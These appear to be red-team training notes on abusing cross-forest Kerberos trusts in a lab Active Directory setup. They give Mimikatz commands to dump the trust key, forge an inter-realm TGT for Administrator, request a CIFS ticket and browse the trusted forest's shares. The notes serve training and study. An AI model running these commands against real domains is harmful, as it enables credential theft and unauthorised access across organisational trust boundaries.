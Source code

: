 ![](https://i.imgur.com/xQkOCrL.png)

**Scenario:** We want to access Application Server across the trust boundary 

1. Request TGT
2. Recieve TGT
3. Show TGT, Req TGS
4. Recieve inter-realm TGT (As soon as DC finds that user trying to access service across the forest)
5. Presents that Inver-realm TGT to target DC and *if it can decrypt it using TRUST KEY* then it is well and good just like krbtgt hash 
6. Response with TGS and we can access according to our privileges.


|Ticket|Varification/Requirement|
|--|--|
|Golden Ticket|KRBTGT hash|
|Silver Ticket|NTLM hash of the service account|
|Inter-Realm TGT|Trust Key|

#### Exploitation
- Across Forests
- We require the trust key for the inter-forest trust.
	`Invoke-Mimikatz -Command '"lsadump::trust /patch"'`
	or
	`Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
	*We will identify the external trusted forest by its NetBIOS name*
![](https://i.imgur.com/AVoNPSO.png)

So we have trusted key and now create a ticket:

```bash
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /rc4:<TRUST_KEY> /service:krbtgt /target:<CROSS_FOREST_DOMAIN EX: EURPCORP.local> /ticket:<OUTPUT_LOCATION>"'

# Now we can request a TGS by presenting this TGT

.\asktgs.exe <LOCATION_to_TGT.kirbi> CIFS/eurocorp-dc.eurocorp.local

# list the tickets
klist

# Access something that is explicitly shared with user of TGT user
ls \\eurpcorp-dc.eurocorp.local\SharedwithDCorp\
```


<center><h1>Trust Abuse - MSSQL Servers</h1></center>
CFA:: 7:23


``
Domain Trust
Cross Forest Trust